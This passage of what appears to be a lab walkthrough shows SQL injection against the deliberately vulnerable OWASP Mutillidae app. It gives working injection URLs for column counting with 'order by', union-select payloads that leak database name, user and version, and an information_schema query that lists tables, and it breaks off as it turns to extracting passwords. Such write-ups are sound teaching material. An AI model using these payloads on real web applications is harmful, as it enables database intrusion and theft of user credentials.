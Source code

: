 http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/user-attachments/assets/5b569bf1-455d-4175-93a2-685959143e7a)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/user-attachments/assets/ced2d9fc-ac8b-4cc5-b457-cf84028430f7)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/user-attachments/assets/7d524ddc-bbda-437a-a8c2-109b095a1355)

As it is having 5 columns the query worked fine and it provides the correct result

![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/user-attachments/assets/54dec713-c6be-4915-9ca3-9815bdb3b41e)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/user-attachments/assets/63a4ed22-bdbd-4e30-8ecf-b3cbcf9f70cf)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/user-attachments/assets/b6404608-a273-4801-b458-d2fe1e7ec990)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/user-attachments/assets/ed789352-33ef-4eff-a090-2a001dd022ee)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/user-attachments/assets/ad50ffdf-2020-44c0-96a0-124ca00484c7)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.
